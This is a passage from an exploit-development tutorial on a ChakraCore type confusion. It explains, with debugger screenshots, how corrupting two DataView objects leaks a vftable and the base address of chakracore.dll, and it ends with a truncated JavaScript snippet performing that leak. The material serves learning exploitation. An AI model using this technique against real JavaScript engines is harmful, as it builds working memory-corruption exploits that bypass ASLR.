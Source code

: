 We know that in `read64()` we first corrupt `dataview2->buffer` with the target address we want to read from by using `dataview1.setUint(0x38...)`. This is because `buffer` is located at an offset of `0x38` within the a `DataView` object. However, since `dataview1` already acts on the `dataview2` object, and we know that the `vftable` takes up bytes `0x0` through `0x8`, as it is the first item of a `DataView` object, we can just simply using our ability to control `dataview2`, via `dataview1` methods, to just go ahead and retrieve whatever is stored at bytes `0x0` - `0x8`, which is the `vftable`! This is the only time we will perform a read without going through our `read64()` function (for the time being). This concept is fairly simple, and can be seen by the diagram below.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion62.png" alt="">

However, instead of using `setUint32()` methods to overwrite the `vftable`, we use the `getUint32()` method to retrieve the value.

Another thing to notice is we have broken up our read into two parts. This, as we remember, is because we can only read/write 32-bits at a time - so we must do it twice to achieve a 64-bit read/write.

It is important to note that we will _not_ step through the debugger ever `read64()` and `write64()` function call. This is because we, in great detail, have already viewed our arbitrary write primitive in action within WinDbg. We already know what it looks like to corrupt `dataview2->buffer` using the builtin `DataView` method `setUint32()`, and then using the same method, on behalf of `dataview2`, to actually overwrite the buffer with our own data. Because of this, anything performed here on out in WinDbg will be purely for exploitation reasons. Here is what this looks like when executed in `ch.exe`.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion63.png" alt="">

If we inspect this address in the debugger, we can clearly see the is the `vftable` leaked from `DataView`!

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion64.png" alt="">

From here, we can compute the base address of `chakracore.dll` by determining the offset between the `vftable` entry leak and the base of `chakracore.dll`.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion65.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion66.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion67.png" alt="">

The updated code to leak the base address of `chakracore.dll` can be found below:

```javascript
    (...)truncated(...)

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
```
